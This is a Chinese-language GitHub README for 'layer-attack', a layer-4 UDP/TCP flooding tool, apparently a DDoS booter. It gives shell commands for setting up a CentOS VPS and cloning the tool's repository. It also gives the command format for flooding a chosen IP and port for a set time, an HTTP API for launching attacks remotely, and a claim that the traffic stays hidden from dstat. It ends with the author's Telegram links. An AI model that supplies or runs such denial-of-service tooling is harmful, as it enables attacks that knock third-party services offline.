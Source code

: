 # layer-attack 一个简单的layer4攻击程序
# 版本：1.1
# 发布时间：2020/02/07
<p>安装所需：</p>
<li>一台能发包的VPS</li>
<li>Centos 7.x系统</li>
<br>
请选择磁盘丰富的位置 执行以下命令
<br>

```BASH
cd ~
yum update -y
yum install epel-release -y
yum install http://rpms.remirepo.net/enterprise/remi-release-7.rpm
yum install yum-utils -y
yum-config-manager --enable remi-php72
yum install php72 -y
yum install php72-php-fpm php72-php-gd php72-php-json php72-php-mbstring php72-php-mysqlnd php72-php-xml php72-php-xmlrpc php72-php-opcache -y
systemctl enable php72-php-fpm.service
yum install -y git wget curl net-tools
git clone https://github.com/KLDGodY/udp-attack.git
cd udp-attack
perl setup.pl
```

<blockquote>如果显示perl没有安装，，请自行到网上找教程，，，</blockquote>
安装过程中如果问你要不要安装某些东西，按y同意
<br>
等待安装好后，，就可以开始攻击力，，
命令格式：<pre>perl /root/ssyn.pl 要攻击的IP 端口 每秒发送数据包(bytes) 持续攻击秒数</pre>
当然你也可以用api攻击，api地址是<pre>http://你的服务器地址/api.php?key=[yourvpspassword(root)]&host=[host]&port=[port]&time=[time]&method=[method]</pre>
说一下，method有3种模式，分别是udp，tcp，和stop，，攻击不会在dstat中呈现
<br>
我的tg：<a href="//t.me/KLDGodY">@KLDGodY</a><br>
tg水群：<a href="//t.me/kldgodygroup">@KLDGodYGroup</a><br>欢迎各位dl加入，，，
